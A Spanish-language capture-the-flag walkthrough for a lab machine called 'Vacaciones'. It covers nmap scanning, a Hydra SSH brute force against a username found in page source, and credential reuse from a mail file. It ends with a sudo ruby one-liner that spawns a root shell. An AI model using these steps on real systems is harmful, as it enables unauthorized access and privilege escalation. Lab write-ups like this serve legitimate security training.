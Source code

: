 # Vacaciones

## 1. Reconocimiento de Puertos con Nmap

Realizamos un escaneo con `nmap` para detectar puertos abiertos y sus versiones. 

```bash
nmap -sC -sV --open <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `22/tcp open ssh OpenSSH 7.6p1 Ubuntu`
*   `80/tcp open http Apache httpd 2.4.29 ((Ubuntu))`

## 2. Enumeración Web

Al acceder a la dirección IP del objetivo en un navegador web, la página parece vacía. Sin embargo, al inspeccionar el código fuente o los elementos de la página, encontramos una pista crucial.

### 2.1. Pista en el Código Fuente

En el código fuente de la página web, se encuentra un comentario o un elemento oculto con el siguiente mensaje:

```txt
De : Juan Para: Camilo , te he dejado un correo es importante...
```

Esta pista nos proporciona dos posibles nombres de usuario: **Juan** y **Camilo**. Además, la mención de un "correo importante" sugiere que la información adicional podría estar en el sistema de correo del servidor.

## 3. Enumeración de Usuarios SSH 

La versión de OpenSSH (7.6p1) es conocida por una vulnerabilidad de enumeración de usuarios (CVE-2018-15473). Intentamos usar herramientas para explotar esto, pero a veces, en entornos de laboratorio, estos exploits pueden dar falsos positivos o no funcionar como se espera.

### 3.1. Intento con Metasploit

Aunque la vulnerabilidad existe, el módulo de Metasploit (`auxiliary/scanner/ssh/ssh_enumusers`) puede reportar falsos positivos o no ser efectivo en todas las configuraciones.

```bash
sudo msfdb init && msfconsole
# use auxiliary/scanner/ssh/ssh_enumusers
# set RHOSTS <IP_DEL_OBJETIVO>
# set USER_FILE /path/to/wordlist/unix_users.txt
# run
```

Si el módulo indica "throws false positive results. Aborting.", significa que no es fiable para enumerar usuarios en este caso.
### 3.2. Intento con exploit de Github
tampoco lo conseguimos con el exploit 
```bash
git clone https://github.com/Sait-Nuri/CVE-2018-15473.git
```

### 3.2. Fuerza Bruta con Hydra

Dado que tenemos nombres de usuario potenciales (Juan y Camilo) de la pista web, podemos intentar un ataque de fuerza bruta directamente contra el servicio SSH. 

Utilizamos `hydra` para intentar adivinar la contraseña del usuario `camilo` con un diccionario de contraseñas.

```bash
hydra -l camilo -P /path/to/wordlist/rockyou.txt ssh://<IP_DEL_OBJETIVO>
```

**Resultado Clave:**

*   `[22][ssh] host: <IP_DEL_OBJETIVO> login: camilo password: password1`

Esto nos proporciona la contraseña para el usuario `camilo`: **password1**.

## 4. Acceso Inicial y Pivote de Usuario

Con las credenciales de `camilo`, podemos acceder al servidor SSH y buscar más pistas.

### 4.1. Conexión SSH como Camilo

```bash
ssh camilo@<IP_DEL_OBJETIVO>
# Contraseña: password1
```

### 4.2. Búsqueda del "Correo Importante"

La pista web mencionaba un "correo importante". En sistemas Linux, los correos de los usuarios suelen almacenarse en `/var/mail/`. Navegamos a este directorio y buscamos el correo de `camilo`.

```bash
cd /var/mail/
ls
# Vemos el directorio 'camilo'
cd camilo
cat correo.txt
```

**Contenido del Correo:**

```
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Este correo nos proporciona una nueva contraseña y, lo más importante, una pista sobre otro usuario: **Juan**.

### 4.3. Acceso SSH como Juan

Intentamos acceder al servidor SSH como `juan` utilizando la contraseña obtenida del correo: `2k84dicb`.

```bash
ssh juan@<IP_DEL_OBJETIVO>
# Contraseña: 2k84dicb
```

## 5. Escalada de Privilegios

Una vez que hemos obtenido acceso SSH como el usuario `juan`, el objetivo es escalar privilegios a `root`.

### 5.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario `juan` con `sudo` sin necesidad de contraseña.

```bash
sudo -l
```

**Resultado :**

*   `User juan may run the following commands on ...:
	(ALL) NOPASSWD: /usr/bin/ruby`

Esto significa que el usuario `juan` puede ejecutar el binario `/usr/bin/ruby` como cualquier usuario (incluido `root`) sin necesidad de introducir su contraseña.

### 5.2. Obtención de Shell de Root con Ruby

`ruby` es un lenguaje de programación que, si se puede ejecutar con `sudo` sin contraseña, puede ser usado para obtener un shell de `root`. Consultamos [GTFOBins](https://gtfobins.github.io/gtfobins/ruby/#sudo) para la técnica específica.

Para obtener un shell de `root`, ejecutamos `ruby` con el flag `-e` para ejecutar código directamente, y el comando `exec "/bin/sh"` para lanzar un shell.

```bash
sudo -u root /usr/bin/ruby -e 'exec "/bin/sh"'
```

El comando `whoami` confirmará que hemos escalado exitosamente a `root`.

```bash
whoami
# root
```

